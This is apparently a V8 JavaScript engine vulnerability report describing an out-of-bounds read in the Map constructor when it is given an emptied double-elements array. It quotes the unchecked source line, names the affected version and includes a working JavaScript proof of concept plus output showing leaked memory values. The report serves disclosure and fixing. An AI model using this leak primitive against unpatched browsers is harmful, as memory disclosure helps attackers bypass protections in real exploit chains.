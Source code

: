 <b>VULNERABILITY DETAILS</b>
When Map constructor takes double elements fast array as an input, it throws an exception and print the first element of the given array even though the array is empty, thus it could lead to OOB read.

See the following code in src/builtins/builtins-collection-gen.cc. it directly loads the first element of an array for an exception message without any boundary check.
```
void BaseCollectionsAssembler::AddConstructorEntriesFromFastJSArray(
    Variant variant, TNode<Context> context, TNode<Context> native_context,
    TNode<Object> collection, TNode<JSArray> fast_jsarray,
    Label* if_may_have_side_effects) {
 ...
  BIND(&if_doubles);
  {
    // A Map constructor requires entries to be arrays (ex. [key, value]),
    // so a FixedDoubleArray can never succeed.
    if (variant == kMap || variant == kWeakMap) {
      TNode<Float64T> element =
          UncheckedCast<Float64T>(LoadFixedDoubleArrayElement(
              elements, IntPtrConstant(0), MachineType::Float64(), 0,  // <---- Load the first element without any check
              INTPTR_PARAMETERS));
      ThrowTypeError(context, MessageTemplate::kIteratorValueNotAnObject,
                     AllocateHeapNumberWithValue(element));
    } else {
```

<b>VERSION</b>
V8 6.6.346.26 (stable)

<b>REPRODUCTION CASE</b>
```js
const double2int = (v) => {
  let buf = new ArrayBuffer(8);
  let farr = new Float64Array(buf);
  let iarr = new Uint32Array(buf);
  farr[0] = v;
  let d = (iarr[1] * 0x100000000) + iarr[0];
  return d;
};

try {
  // Create a double elements array.
  let iterable = new Array(10);
  for (let i = 0; i < 10; i++) {
    iterable[i] = 123.123;
  }

  iterable.length = 0;

  new Map(iterable);
} catch (e) {
  console.log(e);
  let regex = /TypeError: Iterator value ([0-9\.e\-]+) is not an entry object/;
  let val = parseFloat(regex.exec(e)[1]);
  console.log(`Memory Value: ${double2int(val).toString(16)}`);
}
```

When I run this code, I can read some memory value.
```
$ ./out/x64.release/d8
V8 version 6.6.346.26
d8>
$ ./out/x64.release/d8 ./test_collection.js
TypeError: Iterator value 2.7728071084073e-310 is not an entry object
Memory Value: 330afa382431
$ ./out/x64.release/d8 ./test_collection.js
TypeError: Iterator value 3.46540415415403e-310 is not an entry object
Memory Value: 3fcadf382431
```